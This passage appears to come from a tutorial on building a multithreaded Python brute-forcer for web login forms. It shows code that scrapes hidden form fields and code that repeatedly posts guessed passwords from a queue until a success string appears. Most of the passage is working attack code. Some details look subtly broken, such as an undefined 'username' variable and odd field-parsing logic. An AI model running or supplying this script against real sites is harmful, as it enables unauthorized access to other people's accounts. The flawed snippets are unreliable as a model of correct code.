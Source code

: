 
### **3️⃣ Extract Hidden Fields from Login Page**
```python
class BruteParser(HTMLParser, ABC):
    def __init__(self):
        HTMLParser.__init__(self)
        self.tag_results = {}

    def handle_starttag(self, tag, attrs):
        if tag == "input":
            tag_name = None
            for name, value in attrs:
                if name == "name":
                    tag_name = value
                if tag_name:
                    self.tag_results[tag_name] = value
```
- **`BruteParser`** → Extracts **hidden input fields** from login page  
- **`handle_starttag()`** → Finds `<input>` fields and **stores them**  
- This ensures we **send all required form fields** (not just username/password)  

---

### **4️⃣ Brute-force Logic**
```python
class Bruter(object):
    def __init__(self, user, words_q):
        self.username = user
        self.password_q = words_q
        self.found = False
        print(f"Finished setting up for: {user}")

    def run_bruteforce(self):
        for thread in range(user_thread):
            t = threading.Thread(target=self.web_bruter)
            t.start()

    def web_bruter(self):
        while not self.password_q.empty() and not self.found:
            brute = self.password_q.get().rstrip()
            jar = http.cookiejar.FileCookieJar("cookies")
            opener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(jar))
            response = opener.open(target_url)
            page = response.read()
            print(f"Trying: {self.username}: {brute} ({self.password_q.qsize()} left)")

            # Extract hidden fields
            parser = BruteParser()
            parser.feed(page)
            post_tags = parser.tag_results

            # Add login credentials
            post_tags[username_field] = self.username
            post_tags[password_field] = brute

            # Encode form data
            login_data = urllib.parse.urlencode(post_tags).encode()
            login_response = opener.open(target_post, login_data)
            login_result = login_response.read().decode()

            if success_check in login_result:
                self.found = True
                print("[*] Bruteforce successful.")
                print(f"[*] Username: {username}")
```